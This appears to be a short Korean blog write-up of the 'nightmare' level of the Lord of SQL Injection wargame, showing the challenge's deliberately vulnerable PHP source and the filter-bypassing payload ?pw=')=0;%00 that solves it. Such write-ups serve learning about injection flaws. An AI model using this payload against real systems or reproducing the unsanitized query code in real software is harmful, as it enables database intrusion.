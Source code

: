 ```yaml
---
layout: post
title:  "los prob_nightmare"
date:   2019-10-28
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_nightmare where pw=('') and id!='admin'

~~~ php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
~~~

# Solve
1. 6자이내
2. mysql에서 '' = 0 -> 1(true)

### ?pw=')=0;%00

## ZOMBIE_ASSASSIN Clear!
